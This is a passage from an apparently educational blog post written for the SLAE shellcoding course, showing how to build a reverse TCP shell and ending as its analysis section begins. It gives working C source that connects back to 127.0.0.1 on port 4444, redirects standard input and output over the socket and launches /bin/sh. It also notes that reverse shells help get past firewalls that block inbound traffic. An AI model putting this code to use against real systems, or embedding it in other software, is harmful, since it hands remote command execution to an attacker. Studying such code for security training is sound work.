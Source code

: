 ```yaml
---
layout: single
title: Creating a Reverse TCP Shellcode
date: 2018-09-05
categories:
  - security
  - shellcoding
tags:
  - securitytube
  - slae
---
```

Reverse TCP shells are similar to bind shells, in that they allow shell access over a network. The key difference is that a bind shell will listen on the remote host, but a remote shell instead instructs the remote host to connect back to another.

Using a reverse shell is of particular use if a target has a firewall that blocks incoming connections, but does not block outgoing connections.

In C, a reverse shell that connects back to `127.0.0.1` on port `4444` would look like this:

```c
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main ()
{
    const char* ip = "127.0.0.1";
    struct sockaddr_in addr;

    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    inet_aton(ip, &addr.sin_addr);

    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    connect(sockfd, (struct sockaddr *)&addr, sizeof(addr));

    for (int i = 0; i < 3; i++)
    {
        dup2(sockfd, i);
    }

    execve("/bin/sh", NULL, NULL);

    return 0;
}
```

Analysis of the C Prototype
---------------------------
The key differences between this example and the bind shell [Discussed Here](/2018-09-04-creating-a-bind-shell-tcp-shellcode) are:
